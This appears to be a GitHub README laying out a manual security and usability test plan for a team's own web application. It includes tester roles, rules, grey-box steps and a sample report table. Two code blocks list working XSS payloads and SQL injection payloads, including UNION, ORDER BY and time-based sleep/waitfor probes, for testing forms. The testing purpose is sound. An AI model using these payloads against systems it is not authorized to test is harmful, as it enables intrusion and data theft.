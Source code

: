 ## Intro

There will be two actors involved in two rounds of testing: SimpleUser and ComplexUser, and all testing will be done manually. In general, the tasks will be divided as follows: SimpleUser will be responsible for testing all page size-responsively and all forms with various normal data that will be predetermined by some rule, and ComplexUser will be responsible for testing all forms with various data/Payload XSS and SQLinjection and closely observing the response detail. The testing can be continuously, during the development process until the final phase on April 5-10, 2023. There are some rules to directive the testing process and how to record the testing results, so the testing will be `inflexible`.

The testing with SimpleUser, which attempts to test all forms with various normal data, tends to be more suitable for `black box testing`, where testing is done from the user's point of view or the use of the application without paying attention to internal implementation details. Meanwhile, the testing with ComplexUser, which attempts to test with data/Payload XSS and closely observe the response, tends to be more suitable for `grey box testing`, where testing is done with some knowledge of the design and structure of the application.

## Guideline for SimpleUser

1. Login with Google (Google Auth)

2. Explore the entire page

3. Test the responsiveness of the entire page

4. Test all forms repeatedly

5. Test all forms in various conditions.

## Guideline for ComplexUser

1. Manual Registration and Login

2. Manually test the register form repeatedly for SQLi and XSS vulnerabilities

3. Manually test the login form for SQLi and XSS vulnerabilities

4. Repeatedly test all forms in the CMS

5. Test all forms in various conditions.

## General Rules

1. ComplexUser and SimpleUser are not allowed to exchange information regarding the testing process and results.

2. ComplexUser and SimpleUser are not allowed to be in close proximity to each other while one or both are conducting testing.

3. Testing is conducted manually without the use of automated scripts.

4. If an error occurs during the testing process, testing must continue until it cannot be continued.

5. ComplexUser and SimpleUser must understand the format or guidelines for recording testing results and processes.

## Steps

Note: Not all points/steps may be adopted. Here are the steps in conducting web application testing using the grey-box method:

- Understanding Specification: Reading and understanding the specification and requirements of the tested application.

- Code Analysis: Analyzing the code to understand how the application works and identifying which parts need to be tested.

- Test Case Selection: Selecting test cases to be executed based on code analysis and specifications.

- Test Data Creation: Creating test data to test the application and ensure that everything functions as expected.

- Test Environment Setup: Preparing the test environment by installing the required software and configuring the test environment.

- Running Test Cases: Running test cases using the created test data.

- Recording Results: Recording test case results and identifying any issues found.

- Reporting Results: Reporting test case results to the development team and/or project management for further action.

The grey-box method is a combination of black-box and white-box methods, so in the code analysis stage, it is only done to understand how the application works, not to make changes to the application code.

## Payload XSS

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(1);</script>
<script\x0Dtype="text/javascript">javascript:alert(1);</script>
<script\x09type="text/javascript">javascript:alert(1);</script>
<script\x0Ctype="text/javascript">javascript:alert(1);</script>
<script\x2Ftype="text/javascript">javascript:alert(1);</script>
<script\x0Atype="text/javascript">javascript:alert(1);</script>
'`"><\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
```

## SQLinjection Payload

```
OR 1=1
OR 1=0
OR x=x
OR x=y
OR 1=1#

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --

-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --

sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
```

## More Payload at : [PayloadBox Github](https://github.com/payloadbox)

## Example Report Table

| No  | Date   | URI/ Pages        | Input                       | Output          | Exp.                                    |
| --- | ------ | ----------------- | --------------------------- | --------------- | --------------------------------------- |
| 1   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
| 2   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
| 3   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
